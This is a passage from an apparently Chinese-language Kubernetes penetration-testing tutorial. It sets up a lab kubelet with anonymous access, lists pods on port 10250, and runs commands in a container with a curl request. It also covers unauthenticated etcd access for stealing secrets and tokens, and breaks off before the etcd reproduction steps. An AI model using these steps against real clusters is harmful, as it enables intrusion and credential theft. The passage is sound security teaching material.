 ![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9TxuGLASWYOM1VTvNc2Pib4xbkC54yFibPaUadgl3SAXXMaIVBoREZjgg/640?wx_fmt=png&from=appmsg "")  
  
未授权环境准备  
  
修改node节点：  
/var/lib/kubelet/config.yaml 文件  
  
修改authentication  anonymous 下enabled值为 true, authorization mode值为AlaysAllow  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9MibYWGaxor4k2KnjhpB71OGBdXIpkrGNUsNnaqibw0ODTACA8KF7RiblQ/640?wx_fmt=png&from=appmsg "")  
  
重启 kubelet进程  
```
systemctl restart kubelet
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9XibCWO7xTHyeeia9ibJmuQS0uemaxZnHsGSa328QapdnZoznJAmJ5W8qQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9vdib00wTAUbDM5nVqT3r73FMFAwiaQCHHFmwdf25bmXibicFESXZhNtoeA/640?wx_fmt=png&from=appmsg "")  
  
访问：https://192.168.19.60:10250/runningpods/   
  
获取  pod namespace container三个值  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J90YUG7t0Lr5iabYaCMjiclxORdJhQZdEYXY6AICr6AMkloicibbMs9EibBRA/640?wx_fmt=png&from=appmsg "")  
  
远程命令执行  
```
curl -XPOST -k "https://192.168.19.60:10250/run/default/test02/test02" -d "cmd=id"
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9c85o8ujSw1HXzV5icDWlKhN4Ufx7ibGMyaWveNbeoicNXicvbOWhRYk7qw/640?wx_fmt=png&from=appmsg "")  
  
此时执行命令，还是在容器里面，需要配合容器逃逸漏洞，进行容器逃逸提权等后渗透操作。  
  
### 4.1.4 etcd未授权访问 （master节点）  
  
etcd 介绍  
  
Etcd 是一个具有强一致性的分布式 key-value 存储组件 (也是一个高可用的分布式键值对数据库)。采用类似目录结构的方式对数据进行存储，仅在叶子结点上存储数据，叶子结点的父节点为目录，不能存储数据。它为 k8s 集群提供底层数据存储。多数情形下，数据库中的内容没有经过加密处理，一旦 etcd 被黑客拿下，就意味着整个 k8s 集群失陷。  
  
攻击2379端口：默认通过证书认证，主要存放节点的数据，如一些token和证书。  
  
正常默认安装，etcd只允许本地访问，外界无法访问  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9MU6ugANGA2nfRQMm0GJZGcYDiaLlc6oTQGlS2XezJTM0IRtstaurg2g/640?wx_fmt=png&from=appmsg "")  
  
第一种：没有配置指定--client-cert-auth 参数打开证书校验，暴露在外Etcd服务存在未授权访问风险。  
  
第二种：在打开证书校验选项后，通过本地127.0.0.1:2379可免认证访问Etcd服务，但通过其他地址访问要携带cert进行认证访问，一般配合ssrf或其他利用，较为鸡肋。  
  
只能本地访问，直接未授权访问获取secrets和token利用  
  
第三种：实战中在安装k8s默认的配置2379只会监听本地，如果访问没设置0.0.0.0暴露，那么也就意味着最多就是本地访问，不能公网访问，只能配合ssrf或其他。  
  
只能本地访问，利用ssrf或其他进行获取secrets和token利用  
##### 漏洞复现  
  